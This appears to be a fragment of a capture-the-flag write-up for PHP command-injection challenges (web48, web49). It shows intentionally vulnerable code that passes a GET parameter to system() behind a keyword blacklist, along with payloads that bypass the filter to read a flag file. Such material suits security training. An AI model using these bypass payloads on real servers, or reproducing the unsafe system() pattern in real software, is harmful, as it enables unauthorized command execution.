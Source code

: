 ```php
}
```

pyload:?c=tac<fl''ag.php||

### web48

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

pyload:?c=tac<fl''ag.php%26%26ls

### web49

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
